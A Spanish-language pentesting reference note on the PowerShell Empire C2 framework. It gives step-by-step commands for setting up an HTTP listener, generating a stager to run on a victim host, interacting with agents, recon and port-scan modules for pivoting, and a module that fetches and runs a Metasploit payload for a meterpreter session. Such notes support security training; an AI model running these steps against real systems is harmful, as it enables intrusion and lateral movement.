 ```yaml
---
Herramienta: 🕵️‍♂️ PowerShell Empire
Comando: empire
Categoría: Post-explotación
SO: Windows/Linux
tags:
  - post-explotacion
  - c2
  - powershell
---
```


## Descripción

**PowerShell Empire** es una plataforma de post-explotación y control de comando (C2) diseñada para facilitar la administración y operación de sistemas comprometidos. Utiliza PowerShell para ofrecer un conjunto completo de funcionalidades, desde ejecución remota de comandos hasta el despliegue de payloads.

## Características clave

- **C2 completo**: Proporciona un framework modular para controlar agentes en sistemas comprometidos.
- **Uso de PowerShell**: Funciona sin necesidad de binarios adicionales, aprovechando comandos nativos de PowerShell.
- **Soporte multiplataforma**: Compatible con Windows y Linux.
- **Modularidad**: Incluye módulos para tareas específicas como extracción de credenciales, persistencia y movimientos laterales.

## Ejemplo de uso

### Ejemplo 1

Un framework que funciona bien como cliente para poweshell es PowerShell Empire. Para ver como funciona necesitamos lo siguiente:

```bash

#Necesitamos una conexión con un host con windows, puede ser a través de un revershell o un SMB y desde otra pestaña del shell ejecutamos.
powershell-empire server

#Esto desplega el framework del powershell empire. Y para conectar el powershell con la conexión remota tenemos que habrir otra pestaña (total de 3) y ejecutar.

powershell-empire client
```

Este framework sirve para explotación y post-explotación. Este framework nos puede llegar a ser muy útil para pivoting. Vamos a hacer una prueba con diferentes módulos.

```bash

#Una vez hemos logrado establecer conexión con el cliente de poweshell-empire vamos a usar el módulo "uselistener http".

(Empire) > uselistener http

#Ahora tenemos que setear los parametros, en este caso son la IP de nuestro sistema y el puerto que queremos que escuche

set Host ip
set Port 8888
execute

#Si ejecutamos el comando listeners podemos observar los que tenemos configurados y con el comando Main podemos volver a la página principal del framework.

#con el modulo usestager multi/launcher podemos indicarle un listener y nos indicará el comando a ejecutar en la conexión con la victima para meterla en el framework

(Empire) > usestager multi/lancher
set Listener http
execute
```

Si ejecutamos este comando en la conexión (en este caso un SMB) podemos ver como la sesión se añade el powershell empire y si ejecutamos agents podemos ver las sesiones que tenemos dentro del framework.

Ahora, como podemos volver a entrar a este host? muy sencillo

```bash

#Desde el framework de powershell empire vamos a lanzar la instrucción interact y el name del agents que nos aparezca

interact name

#Con esto estaremos dentro del host pero seguiremos utilzando powershell empire, con lo que tenemos acceso a todos los módulos por ejemplo ->

usemodule powershell/situational_awareness/host/computerdetails
execute


#Y nos dará información detallada del host al que nos hemos conectado. Otro modulo de ejemplo interesante

usemodule powershell/situational_awareness/network/portscan

#Este modulo es esencial para hacer pivoting y lo que podemos hacer es ponerle una ip que nosotros no tengamos acceso pero que esta maquina si que tenga acceso

set Hosts ip2
execute

#Tarda en ejecutarse pero nos dará información de los puertos abiertos y si queremos explotarlos ya entrariamos a usar metasploit.
```

**Después del ejemplo 1 de metasploit**:

Desde aquí nos habrá pasado metasploit un comando a ejecutar en el sistema victima, para ello podemos hacer uso de algún modulo de Powershell Empire

```cmd
usemodule powershell/code_execution/invoke_metasploitpayload
set URL url #la de metasploit

#Con esto podemos conseguir una sesion de meterpreter en el metasploit.
```



